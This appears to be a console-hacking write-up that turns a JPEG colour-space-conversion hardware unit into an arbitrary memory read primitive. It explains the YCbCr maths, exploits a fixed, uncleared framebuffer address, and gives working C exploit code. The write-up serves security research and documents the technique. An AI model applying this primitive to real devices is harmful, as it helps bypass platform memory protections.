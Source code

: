 As I didn't know much about this algorithm, I took a quick look on wikipedia: [YCbCr](<https://en.wikipedia.org/wiki/YCbCr>). The last section on JPEG conversion reveals that RGB is calculated as follows:

```
R = Y + 1.402 * (Cr - 128)
G = Y - 0.344136 * (Cb - 128) - 0.714136 * (Cr - 128)
B = Y + 1.722 * (Cb - 128)
```

It is simple to see that if Cr and Cb are 128, we have:

```
R = Y
G = Y
B = Y
```

How can we achieve that? Luckily this can easily be done, because of the fact that the framebuffer is allocated at the constant address 0x66a00000 in CDRAM and that it is not cleared after the conversion is done.

This can be exploited as follows:

1. Fill the YCbCr framebuffer with value 128.
2. Copy memory of our arbitrary location into Y component.
3. Copy exactly the same memory into the framebuffer (src=dst).
4. Apply color space conversion. Now R=G=B=Y.
5. Read every fourth byte of the output buffer.

Below is the implementation of the arbitrary read primitive:

```c
static void jpeg_csc(void *pRGBA, const void *pYCbCr, int width, int height, int iFrameWidth, int mode, int addr) {
  int work = 0;
  _sceKernelDcacheWritebackInvalidateAll();
  _sceMeRequest(ME_CMD_CSC_INIT, work, pRGBA, pYCbCr, width, height, mode, 0, iFrameWidth);
  _sceMeRequest(ME_CMD_CSC_ROW,  work, addr / width, mode);
}

int _read_native(void *dst, u32 src, size_t len) {
  int k1 = pspSdkSetK1(0);

  size_t i;
  for (i = 0; i < ALIGN(len, 16); i += 16) {
    u8 *temp = (u8 *)0xABCD0000;
    memset(temp, 128, 3 * 8 * 16);
    jpeg_csc(temp, (void *)0x08000000, 8, 16, 8, 0b0101, NATIVE(temp));
    jpeg_csc(temp, (void *)0x08000000, 1,  0, 1, 0b0101, src + i);
    jpeg_csc(temp, (void *)0x08000000, 8, 16, 8, 0b0101, 0x66a00000);

    size_t j;
    for (j = 0; j < MIN(len - i, 16); j++)
      ((u8 *)dst)[i + j] = temp[j * 4];
  }

  pspSdkSetK1(k1);
  return 0;
}
```
